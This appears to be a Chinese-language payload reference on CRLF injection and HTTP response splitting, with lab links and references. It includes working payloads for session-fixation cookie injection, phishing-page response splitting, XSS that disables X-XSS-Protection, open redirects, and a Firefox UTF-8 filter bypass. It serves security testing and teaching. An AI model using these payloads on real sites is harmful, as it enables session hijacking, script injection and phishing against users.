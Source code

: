 # 回车换行符注入

> CRLF 注入是一种网络安全漏洞，当攻击者向应用程序注入意外的回车符（CR）(\r) 和换行符（LF）(\n) 时就会发生。这些字符在网络协议（如 HTTP、SMTP 等）中用于表示一行的结束和新的一行的开始。在 HTTP 协议中，CR-LF 序列总是用来终止一行。

## 概述

* [方法论](#方法论)
    * [会话固定](#会话固定)
    * [跨站脚本攻击](#跨站脚本攻击)
    * [开放重定向](#开放重定向)
* [过滤器绕过](#过滤器绕过)
* [实验室](#实验室)
* [参考文献](#参考文献)

## 方法论

HTTP 响应拆分是一种安全漏洞，攻击者通过向响应头注入回车符（CR）和换行符（LF）字符（统称为 CRLF），来操纵 HTTP 响应。在 HTTP 响应中，这些字符标记了头部的结束和新行的开始。

**CRLF 字符**：

* `CR` (`\r`, ASCII 13)：将光标移动到行首。
* `LF` (`\n`, ASCII 10)：将光标移动到下一行。

通过注入 CRLF 序列，攻击者可以将响应分成两部分，从而有效地控制 HTTP 响应的结构。这可能导致各种安全问题，例如：

* 跨站脚本攻击（XSS）：在第二个响应中注入恶意脚本。
* 缓存中毒：迫使错误的内容存储在缓存中。
* 头部操作：更改头部以误导用户或系统。

### 会话固定

典型的 HTTP 响应头如下所示：

```http
HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: sessionid=abc123
```

如果未经清理就嵌入了用户输入 `value\r\nSet-Cookie: admin=true`：

```http
HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: sessionid=value
Set-Cookie: admin=true
```

现在攻击者已经设置了他们自己的 cookie。

### 跨站脚本攻击

除了需要非常不安全的方式来处理用户会话的会话固定之外，利用 CRLF 注入的最简单方法是为页面编写新的正文。它可以用来创建网络钓鱼页面或触发任意 JavaScript 代码（XSS）。

**请求页面**：

```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

**HTTP 响应**：

```http
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

在 XSS 的情况下，CRLF 注入允许注入 `X-XSS-Protection` 头部，其值为“0”，以禁用它。然后我们可以添加包含 JavaScript 代码的 HTML 标签。

**请求页面**：

```powershell
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

**HTTP 响应**：

```http
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

### 开放重定向

注入一个 `Location` 头部，强制用户重定向。

```ps1
%0d%0aLocation:%20http://myweb.com
```

## 过滤器绕过

[RFC 7230](https://datatracker.ietf.org/doc/html/rfc7230#section-3.2.4) 指出大多数 HTTP 头字段值仅使用 US-ASCII 字符集的一个子集。

> 新定义的头字段应将其字段值限制为 US-ASCII 八位字节。

Firefox 遵循该规范，在设置 Cookie 时剥离任何超出范围的字符，而不是对其进行编码。

| UTF-8 字符 | 十六进制 | Unicode | 剥离 |
| ---------- | -------- | ------- | ---- |
| `嘊`       | `%E5%98%8A` | `\u560a` | `%0A` (\n) |
| `嘍`       | `%E5%98%8D` | `\u560d` | `%0D` (\r) |
| `嘾`       | `%E5%98%BE` | `\u563e` | `%3E` (>)  |
| `嘼`       | `%E5%98%BC` | `\u563c` | `%3C` (<)  |

UTF-8 字符 `嘊` 在其十六进制格式的最后部分包含 `0a`，这会被 Firefox 转换为 `\n`。

一个使用 UTF-8 字符的示例有效载荷将是：

```js
嘊嘍content-type:text/html嘊嘍location:嘊嘍嘊嘍嘼svg/onload=alert(document.domain()嘾
```

URL 编码版本

```js
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28document.domain%28%29%E5%98%BE
```

## 实验室

* [PortSwigger - 通过 CRLF 注入进行 HTTP/2 请求拆分](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection)
* [Root Me - CRLF](https://www.root-me.org/en/Challenges/Web-Server/CRLF)

## 参考文献

* [CRLF 注入 - CWE-93 - OWASP - 2022 年 5 月 20 日](https://www.owasp.org/index.php/CRLF_Injection)
* [Twitter 上的 CRLF 注入或为什么黑名单失败 - XSS Jigsaw - 2015 年 4 月 21 日](https://web.archive.org/web/20150425024348/https://blog.innerht.ml/twitter-crlf-injection/)
* [星巴克: [newscdn.starbucks.com] CRLF 注入, XSS - Bobrov - 2016 年 12 月 20 日](https://vulners.com/hackerone/H1:192749)